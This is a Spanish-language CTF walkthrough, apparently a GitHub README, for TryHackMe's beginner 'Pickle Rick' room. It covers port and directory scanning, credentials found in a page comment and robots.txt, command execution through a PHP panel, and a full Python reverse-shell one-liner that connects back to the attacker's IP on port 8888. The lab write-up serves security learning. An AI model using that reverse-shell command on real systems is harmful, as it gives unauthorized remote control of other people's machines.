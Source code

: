 # Guia_Pickle_Rick
Maquina para principiantes de TryHackMe, pensada para usar herramientas y técnicas básicas

# Recursos requeridos en el procedimiento:
  Estos recusos son necesario pero de igual manera los explicare de manera correspondiente.
  Cada palabra esa enlaca a documentacion en caso de quede profundizar

## _[Nmap](https://nmap.org/docs.html)_
- Un herramienta de escaneo de puertos.

## _[Gobuster](https://hackertarget.com/gobuster-tutorial/)_
- Una herramienta de escaneo de redes

## _[Kali-Linux](https://www.kali.org/docs/)_
- Un sistema operativo pensado para realizar pruebas de penetración avanzadas y auditorías de seguridad.

## _[Python](https://www.python.org/)_
- Un lenguaje de programacion. (solo ocupa entenderlo)

## _[HTML](https://developer.mozilla.org/es/docs/Web/HTML)_
- Lenguaje de etiquetas de hipertexto
## _[JavaScritp](https://developer.mozilla.org/es/docs/Web/JavaScript)_
- Lenguaje de Programacion (Entender el codigo) 

## _[PHP](https://www.strato.es/faq/hosting/que-es-php-y-como-lo-utilizo/)_

- Es un lenguaje de programación versátil que se ejecuta en el servidor

## Conceptos basicos para la maquina

- Revershell
- SHH
- Directorios
- Puertos y servicios

# Paso a paso 

Primero nos conectamos a la VPN de TryHackMe usando [OpenVPN](https://openvpn.net/as-docs/linux.html#tutorial--connect-from-linux) una ves conectados procedemos con un escaneo de red. 

![image](https://github.com/user-attachments/assets/b857d3e8-d271-437c-ba27-0cc06009ccab)
- *&* Ejecuta el comando en segundo plano.

Una vez conectados haremos un esceneo del equipo con Nnmap 
 -  Nota: TryHackme nos da la IP del odjetivo.
    
   ![image](https://github.com/user-attachments/assets/af097b5c-798d-4626-bf29-c02cac5ad01c)


![image](https://github.com/user-attachments/assets/dcc76218-3fa2-494b-beb7-47fd02dc1abe)

Podemos ver Dos puertos abiertos: 
- Puerto 22/tcp shh : Es protocolo de red para controlar un dispositivo de manera remota.
- Puerto 80/tcp http: Estan corriendo una pagina web en ese equipo.

Lo mejor seria buscar en la web alguna vulnerabilidad.

![image](https://github.com/user-attachments/assets/680b0410-d1c8-4c36-976c-a09782b83287)

![image](https://github.com/user-attachments/assets/4578cd72-83bf-4c9b-bb25-c1f1e04427f1)

Aqui podemos ver cual es el objetivo de este laboratorio. 

ahora como primer paso se pueden hacer dos cosas que seria usar "Gobuster" para buscar directorios ocultos o podemos inspeccionar el codigo fuente de la pagina(CTRL+U).

En mi caso inspeccione la pagina primero:
![image](https://github.com/user-attachments/assets/527cb5b3-5c72-4916-a8d0-2925e7f3246f)

Podemos notar que Rick comento su codigo y puso una nota para si mismo, donde se mencion un usuario.

### Username: R1ckRul3s

Despues eso no se ve nada mas relevante por lo procedemos a usar "Gobuster". 

## Como instalar _Gobuster_:
- Simplemete pon esto en la terminal `sudo apt install gobuster`

  Una vez instalado procedemos a llamarlo.
  ![image](https://github.com/user-attachments/assets/e058efed-7b37-452c-a7fd-862663b318e6)
- Ente comando podemos ver mucha informacion entre ella
- `gobuster` llama la herramienta.
- `dir` Utiliza el modo de enumeración de directorios/archivos
- `http://10.10.117.130` Se indicar la pagina que se desa analizar.
- `-w` es para indicarle a "Gobuster" que se le entregara un diccionario.
- `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
- `-x` es para buscar ciertos tipo de archivos en este caso especificamos: php,sh,txt,cgi,etc..

Para mas detalles de _[Gobuster](https://hackertarget.com/gobuster-tutorial/)_

![image](https://github.com/user-attachments/assets/15d20262-9812-490e-a163-78ae43e4d947)

Yo termine el proceso cuando vi que no estaba consiguiendo nada mas. 

### Observaciones: 
![image](https://github.com/user-attachments/assets/7fd0ce21-2d9f-490a-be65-ae2347d518c8)

vemos un archivo en terminacion `.txt` esto quiere decir que es texto. 
ademas un directorio que dice `/assets` podemos revisar para averiguar algo.
Pero mas importante vemos un directorio `/login.php`.

Puedes revisar cual gustes aqui solo pondres los que son importantes.

### Revisando el `/robots.txt`

![image](https://github.com/user-attachments/assets/0a78485b-7fa2-452f-a394-a2fc2473cdc0)

- Vemos un texto, lo guadaremos en caso de que se nos pida alguna contraseña. 

### Revisando `/login.php`

![image](https://github.com/user-attachments/assets/0dcfa508-a00b-413e-8d2e-18dc989c1d9b)

Podemos ver que es una pagina de login 

anterior mente encontramos un usuario en un comentario del code: R1ckRul3s
y tambien encontramos una palabra en `/robots.txt`.

![image](https://github.com/user-attachments/assets/9e777166-868d-4b1c-8d2c-5a246b95a155)

Como podemo ser es una terminal de php por lo que podemos ejecutar comando en el equipo. 
pero para estar seguros ejecutamos un comando `whoami` para ver quien somos, en este caso somos `www-data` 

ahora averiguaremos que archivos puedo ver con `ls`.

![image](https://github.com/user-attachments/assets/9eaebf1a-8277-4626-8afe-a0f197a656d4)

Vemos varios textos por lo que usaremos `nl` para sobreleer la informacion del texto.

![image](https://github.com/user-attachments/assets/29089b17-e650-4716-804d-dac6c27e09a6)

### Primera flag: mr. meeseek hair

entreo los directorios no se ve nada interesante por lo que nos interesaria intentar hacer una [reverse shell](https://www.swhosting.com/es/blog/uso-del-comando-grep-en-sistemas-linux-unix) pero usando python3.

pero no sabemos si ese sistema tiene python instalado por lo que lo verificaremos.

![image](https://github.com/user-attachments/assets/eb05ef62-0b1b-4170-a91e-2e29955b0251)

Podemos ver que efectivamente responde por lo que ejecutaremos script de python para hacer reverse shell.

![image](https://github.com/user-attachments/assets/6345f700-db07-457c-8cbd-0fc076df5119)

Sabemos que el sistema usae python3 por lo que tenemos que especificar.

y ademas necesitaremos modificar el script para que nos funcione y ademas necesitamos poner un puerto a escuchar para resivir la reverse shell. 

para esto necesitamos saber cual es nuestra IP en mi casa:

![image](https://github.com/user-attachments/assets/ab5cc452-d7f8-4127-97a9-dafcba7f04b7)

tenemos tambien que acitvar un puerto en nuestro equipo para recibir, yo escogi el puerto 8888.

![image](https://github.com/user-attachments/assets/62adebd4-dc76-4a71-af67-9a0fbb1b582e)

y con eso queda pendiente a la reverse shell.

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.21.35.128",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

IP: 10.21.35.128 - Puerto: 8888 

![image](https://github.com/user-attachments/assets/18a29b99-c10c-42b0-8048-75314c2979a2)

Una ves ejecutado podemos ver que el puerto ha recibido la reverse shell.

![image](https://github.com/user-attachments/assets/06d3e158-6ed9-4abc-b53d-3ca24a899813)

ahora para tener una mejor interfaz ejecutamos el siguiente escript `script /dev/null -c bash`.

![image](https://github.com/user-attachments/assets/c0c71bc3-228c-4c10-a68b-c70dd9eb7577)

lo que nos da una interfaz que nos muesta quienes somo y donde estamos. 











